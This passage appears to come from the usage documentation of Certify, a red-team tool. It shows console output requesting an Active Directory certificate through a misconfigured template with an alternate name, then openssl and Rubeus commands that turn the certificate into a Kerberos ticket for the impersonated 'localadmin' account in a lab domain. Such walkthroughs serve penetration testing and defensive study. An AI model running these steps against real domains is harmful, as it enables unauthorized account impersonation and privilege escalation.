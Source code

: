        _____          _   _  __
      / ____|        | | (_)/ _|
     | |     ___ _ __| |_ _| |_ _   _
     | |    / _ \ '__| __| |  _| | | |
     | |___|  __/ |  | |_| | | | |_| |
      \_____\___|_|   \__|_|_|  \__, |
                                 __/ |
                                |___./
      v1.0.0

    [*] Action: Request a Certificates

    [*] Current user context    : THESHIRE\harmj0y
    [*] No subject name specified, using current context as subject.

    [*] Template                : VulnTemplate
    [*] Subject                 : CN=harmj0y, OU=TestOU, DC=theshire, DC=local
    [*] AltName                 : localadmin

    [*] Certificate Authority   : dc.theshire.local\theshire-DC-CA

    [*] CA Response             : The certificate had been issued.
    [*] Request ID              : 337

    [*] cert.pem         :

    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEAn8bKuwCYj8...
    -----END RSA PRIVATE KEY-----
    -----BEGIN CERTIFICATE-----
    MIIGITCCBQmgAwIBAgITVQAAAV...
    -----END CERTIFICATE-----


    [*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx



    Certify completed in 00:00:04.2127911


Copy the ` -----BEGIN RSA PRIVATE KEY----- ... -----END CERTIFICATE-----` section to a file on Linux/macOS, and run the openssl command to convert it to a .pfx. When prompted, don't enter a password:

    (base) laptop:~ harmj0y$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
    Enter Export Password:
    Verifying - Enter Export Password:
    (base) laptop:~ harmj0y$


Finally, move the cert.pfx to your target machine filesystem (manually or through Cobalt Strike), and request a TGT for the `altname` user using Rubeus:

    C:\Temp>Rubeus.exe asktgt /user:localadmin /certificate:C:\Temp\cert.pfx
